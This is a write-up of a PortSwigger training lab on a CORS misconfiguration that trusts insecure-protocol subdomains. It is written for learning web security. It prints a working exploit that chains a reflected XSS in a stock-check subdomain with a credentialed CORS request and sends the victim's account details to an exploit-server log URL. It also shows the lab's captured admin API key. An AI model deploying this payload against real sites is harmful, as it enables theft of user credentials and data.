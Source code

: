 # CORS vulnerability with trusted insecure protocols | Dec 27, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-breaking-https-attack), you'll learn: CORS vulnerability with trusted insecure protocols! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227063843.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227063855.png)

**In the previous labs, we found that when we're logged in, it'll send a GET request to `/accountDetails`, which fetches account's data:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227063938.png)

**Let's send that request to Burp Repeater, and add a HTTP header called `Origin` with a random host:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064050.png)

Hmm... The response header doesn't reflect our `Origin` host.

**In the lab's background, it said:**

> This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

That being said, this website whitelists a trusted subdomain that is using **plain HTTP**.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227065527.png)

**After poking around the website, I found that the "Check stock" feature is using HTTP:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064909.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064919.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227064934.png)

When I clicked the "Check stock" button, **it pops up another window that's pointing to `http://stock.0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/?productId=1&storeId=1`, which is a subdomain in `0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net`**

**Also, the `productId` parameter is vulnerable to XSS(Cross-Site Scripting)!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227065943.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227065956.png)

**Armed with above information, we can craft a XSS payload that contains the account details!**
```html
<html>
    <head>
        <title>CORS-3</title>
    </head>
    <body>
        <script>
            document.location="http://stock.0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener; req.open('get','https://0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='https://exploit-0a930014030dfc71c11e84f601550032.exploit-server.net/log?data='%2bthis.responseText; };;%3c/script>&storeId=1"
        </script>
    </body>
</html>
```

**Then host it on the exploit server, and test it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071205.png)

**Exploit server access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071239.png)

It worked!

**Let's deliver it to the victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071300.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071320.png)

```json
{
    "username": "administrator",
    "email": "",
    "apikey": "CPI6UWhwMcmQ1gbk2cCcL7fiD7kK1x0T",
    "sessions": [
        "W1JCjX2NapNO0t6baehAUl56QKVgJ23v"
    ]
}
```

**Let's submit that API key!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071404.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-3/images/Pasted%20image%2020221227071429.png)

# What we've learned:

1. CORS vulnerability with trusted insecure protocols